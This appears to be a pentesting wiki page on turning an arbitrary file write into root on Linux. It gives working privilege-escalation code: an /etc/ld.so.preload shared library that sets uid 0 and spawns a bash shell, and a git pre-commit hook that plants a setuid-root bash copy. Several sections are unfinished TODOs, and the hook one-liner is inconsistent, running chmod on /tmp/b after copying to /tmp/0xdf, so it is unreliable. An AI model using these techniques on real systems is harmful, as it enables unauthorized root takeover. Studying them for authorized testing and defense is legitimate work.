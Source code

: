# Arbitrary File Write to Root

{{#include ../../banners/hacktricks-training.md}}

### /etc/ld.so.preload

This file behaves like **`LD_PRELOAD`** env variable but it also works in **SUID binaries**.\
If you can create it or modify it, you can just add a **path to a library that will be loaded** with each executed binary.

For example: `echo "/tmp/pe.so" > /etc/ld.so.preload`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unlink("/etc/ld.so.preload");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
//cd /tmp
//gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

### Git hooks

[**Git hooks**](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks) are **scripts** that are **run** on various **events** in a git repository like when a commit is created, a merge... So if a **privileged script or user** is performing this actions frequently and it's possible to **write in the `.git` folder**, this can be used to **privesc**.

For example, It's possible to **generate a script** in a git repo in **`.git/hooks`** so it's always executed when a new commit is created:

```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/b' > pre-commit
chmod +x pre-commit
```

### Cron & Time files

TODO

### Service & Socket files

TODO

### binfmt_misc

The file located in `/proc/sys/fs/binfmt_misc` indicates which binary should execute whic type of files. TODO: check the requirements to abuse this to execute a rev shell when a common file type is open.

{{#include ../../banners/hacktricks-training.md}}



